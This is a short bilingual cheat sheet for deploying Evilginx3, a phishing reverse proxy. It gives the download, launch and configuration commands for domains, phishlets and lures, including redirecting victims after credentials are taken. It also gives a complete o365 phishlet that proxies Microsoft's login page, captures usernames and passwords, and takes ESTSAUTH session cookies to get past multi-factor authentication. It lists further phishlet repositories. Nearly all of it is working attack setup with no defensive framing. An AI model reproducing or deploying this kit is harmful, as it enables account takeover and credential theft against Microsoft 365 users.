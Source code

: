 # Evilginx3

## Oneliners

### Download

```bash
wget https://github.com/kgretzky/evilginx2/releases/download/v3.3.0/evilginx-v3.3.0-linux-64bit.zip
```

### Ejecutar

> Lanzar siempre sobre tmux para seguir ejecutando al finalizar conexion ssh

```bash
sudo ./evilginx -p ../phishlets
sudo ./evilginx -p ../phishlets -developer # para dev local
```

### Configs

> Now if you're not running a local development instance (started with -developer command line argument), Evilginx will start to automatically obtain the required TLS certificates from LetsEncrypt.

```bash
# Set up a domain
config domain <domain.com>
config ipv4 <public ip>
# Set up a phishlet
phishlets hostname <phishlet name> <domain.com>
phishlets enable <phishlet name>
phishlets disable <phishlet name> #deshabilitar
# Set up a lure
lures create <phishlet name>
lures get-url <id lure>
lures edit 0 redirect_url https://www.alux.cc # redirigir despues de obtener creds
# Get sessions
sessions
sessions <id session>
```

## Phishlets

Descargar los phishlets y moverlos a la carpeta de phishlets

### o365.yaml

```yaml
name: 'o365'
author: '@jamescullum'
min_ver: '3.3.0'
proxy_hosts:
  - {phish_sub: 'login', orig_sub: 'login', domain: 'microsoftonline.com', session: false, is_landing: true}
  - {phish_sub: 'www', orig_sub: 'www', domain: 'office.com', session: false, is_landing:false}
  # The lines below are needed if your target organization utilizes ADFS.
  # If they do, you need to uncomment all following lines that contain <...>
  # To get the correct ADFS subdomain, test the web login manually and check where you are redirected.
  # Assuming you get redirected to adfs.example.com, the placeholders need to be filled out as followed:
  #    <insert-adfs-subdomain> = adfs
  #    <insert-adfs-host> = example.com
  #    <insert-adfs-subdomain-and-host> = adfs.example.com
  #- {phish_sub: 'adfs', orig_sub: '<insert-adfs-subdomain>', domain: '<insert-adfs-host>', session: true, is_landing:false}
  #- {phish_sub: 'adfs', orig_sub: '<insert-adfs-subdomain>', domain: '<insert-adfs-host>:443', session: true, is_landing:false}
sub_filters:
  - {triggers_on: 'login.microsoftonline.com', orig_sub: 'login', domain: 'microsoftonline.com', search: 'href="https://{hostname}', replace: 'href="https://{hostname}', mimes: ['text/html', 'application/json', 'application/javascript']}
  - {triggers_on: 'login.microsoftonline.com', orig_sub: 'login', domain: 'microsoftonline.com', search: 'https://{hostname}', replace: 'https://{hostname}', mimes: ['text/html', 'application/json', 'application/javascript'], redirect_only: true}
  # Uncomment and fill in if your target organization utilizes ADFS
  #- {triggers_on: '<insert-adfs-subdomain-and-host>', orig_sub: 'login', domain: 'microsoftonline.com', search: 'https://{hostname}', replace: 'https://{hostname}', mimes: ['text/html', 'application/json', 'application/javascript']}
auth_urls:
  - '/kmsi*'
auth_tokens:
  - domain: '.login.microsoftonline.com'
    keys: ['ESTSAUTH', 'ESTSAUTHPERSISTENT', 'SignInStateCookie','CCState']
  #- domain: 'webshell.suite.office.com'
  #  keys: ['ESTSAUTH', 'ESTSAUTHPERSISTENT', 'SignInStateCookie','CCState']
credentials:
  username:
    key: '(login|UserName)'
    search: '(.*)'
    type: 'post'
  password:
    key: '(passwd|Password)'
    search: '(.*)'
    type: 'post'
login:
  domain: 'login.microsoftonline.com'
  path: '/'
```

- https://github.com/An0nUD4Y/Evilginx2-Phishlets
- https://github.com/simplerhacking/Evilginx3-Phishlets
- https://github.com/hash3liZer/phishlets
- https://github.com/ArchonLabs/evilginx2-phishlets
- https://github.com/charlesbel/Evilginx2-Phishlets
